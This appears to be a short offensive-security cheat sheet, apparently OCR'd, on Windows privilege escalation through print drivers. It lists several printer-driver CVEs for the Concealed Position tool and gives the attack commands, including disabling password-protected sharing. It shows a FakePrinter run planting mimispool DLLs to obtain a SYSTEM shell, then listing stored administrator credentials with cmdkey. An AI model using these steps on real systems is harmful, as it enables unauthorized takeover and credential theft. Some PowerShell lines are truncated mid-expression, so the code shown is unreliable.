 #### Bring Your Own Vulnerability

**Concealed Position : https://tinyurl.com/2bvl5yz3**

**ACIDDAMAGE - CVE-2021-35449 - Lexmark Universal Print Driver LPE**

**RADIANTDAMAGE - CVE-2021-38085 - Canon TR150 Print Driver LPE**

**POISONDAMAGE - CVE-2019-19363 - Ricoh PCL6 Print Driver LPE**

**SLASHINGDAMAGE - CVE-2020-1300 - Windows Print Spooler LPE**

```
cp_server.exe -e ACIDDAMAGE
# Get-Printer
# Set the "Advanced Sharing Settings" -> "Turn off password protected sharing"
cp_client.exe -r 10.0.0.9 -n ACIDDAMAGE -e ACIDDAMAGE
cp_client.exe -l -e ACIDDAMAGE
```

### EoP - Runas

```
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

```
git clone https://tinyurl.com/24mzrkcj
PS C:\adversary> FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
[<3] @Flangvik - TrustedSec
[+] Copying C:\Windows\system32\mscms.dll to C:\Windows\system32\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 64mimispool.dll to C:\Windows\system32\spool\drivers\x 64 \3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 32mimispool.dll to C:\Windows\system32\spool\drivers\W32X86\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Adding printer driver => Generic / Text Only!
[+] Adding printer => EasySystemShell!
[+] Setting 64-bit Registry key
[+] Setting 32-bit Registry key
[+] Setting '*' Registry key
```

```
PS C:\target> $serverName = 'printer-installed-host'
PS C:\target> $printerName = 'EasySystemShell'
PS C:\target> $fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(
PS C:\target> Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
PS C:\target> Add-Printer -ConnectionName $fullprinterName
```

**Use the cmdkey to list the stored credentials on the machine.**

```
cmdkey /list
Currently stored credentials:
Target: Domain:interactive=WORKGROUP\Administrator
Type: Domain Password
User: WORKGROUP\Administrator
```
